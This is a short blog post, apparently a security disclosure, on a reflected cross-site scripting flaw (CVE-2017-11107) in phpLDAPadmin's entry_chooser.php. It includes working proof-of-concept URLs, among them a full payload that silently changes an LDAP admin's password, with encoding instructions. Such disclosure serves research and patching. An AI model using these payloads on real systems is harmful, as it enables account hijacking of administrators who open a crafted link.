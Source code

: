 +++
date = '2017-07-20T11:16:00+00:00'
title = 'Hijacking phpLDAPadmin account using a Cross-site scripting vulnerability (CVE-2017-11107)'
+++

## Software Description

phpLDAPadmin is an web-based LDAP adminstration interface for viewing and manipulating LDAP information.

## Vulnerability Description

`$request['form']` and `$request['rdn']` parameters in file `htdocs/entry_chooser.php` aren't properly sanitized before being displayed to the user, which allows a remote attacker to inject arbitrary HTML/JavaScript code in a user's context.

{{< gist xd4rker 0bcac2062fe59df80b283790ad71b0c7 >}}

This vulnerability, if successfully exploited, can lead to data manipulation or information leakage as it is demonstrated in this PoC video:

{{< youtube Ww7LD_bmH-o >}}

---

## Proof of Concept (PoC)

**XSS via the `form` parameter:**

```https://github.com/leenooks/phpLDAPadmin/issues/50
http://localhost:8888/phpldapadmin/entry_chooser.php?form=advanced_search_form%22).base;%27);}%20alert(1);%20function%20lol()%20{%20isNaN(%27&element=base&rdn=test
```

**XSS via the `rdn` parameter (needs Chrome's XSS Auditor bypass):**

```
http://localhost:8888/phpldapadmin/entry_chooser.php?form=advanced_search_form&element=base&rdn=test%22%3E%3Cscript%3Ealert(1)%3C/script%3E
```

**Changing admin password to `1337`:**

```
%22).base;%27);}%20var%20http=new%20XMLHttpRequest();%20var%20url=%22http://localhost:8888/phpldapadmin/cmd.php%22;%20var%20params=%22cmd%3Dupdate%2526server_id%3D1%2526dn%3Dcn%25253D<LOGIN_DN>%2526new_values%25255Buserpassword%25255D%25255B0%25255D%3D%25257BSSHA%25257Dxtzm0RhdgidTmNnRD0rvUdjCcGhPQgKa%22;%20http.open(%22POST%22,%20url,%20true);%20http.setRequestHeader(%22Content-type%22,%20%22application/x-www-form-urlencoded%22);%20http.send(params);%20function%20lol()%20{%20isNaN(%27
```

**`<LOGIN_DN>`**: Triple URL-encoded login DN (e.g., `cn%253Dadmin%252Cdc%253Dldap%252Cdc%253Dcom`)

**PoC URL:**

```
 http://localhost:8888/phpldapadmin/entry_chooser.php?form=advanced_search_form%22).base;%27);}%20var%20http=new%20XMLHttpRequest();%20var%20url=%22http://localhost:8888/phpldapadmin/cmd.php%22;%20var%20params=%22cmd%3Dupdate%2526server_id%3D1%2526dn%3Dcn%25253Dadmin%25252Cdc%25253Dldap%25252Cdc%25253Dcom%2526new_values%25255Buserpassword%25255D%25255B0%25255D%3D%25257BSSHA%25257Dxtzm0RhdgidTmNnRD0rvUdjCcGhPQgKa%22;%20http.open(%22POST%22,%20url,%20true);%20http.setRequestHeader(%22Content-type%22,%20%22application/x-www-form-urlencoded%22);%20http.send(params);%20function%20lol()%20{%20isNaN(%27&element=base&rdn=test
```

**References:**

- [https://bugs.launchpad.net/ubuntu/+source/phpldapadmin/+bug/1701731](https://bugs.launchpad.net/ubuntu/+source/phpldapadmin/+bug/1701731)
- [https://github.com/leenooks/phpLDAPadmin/issues/50](https://github.com/leenooks/phpLDAPadmin/issues/50)
  https://github.com/leenooks/phpLDAPadmin/issues/50

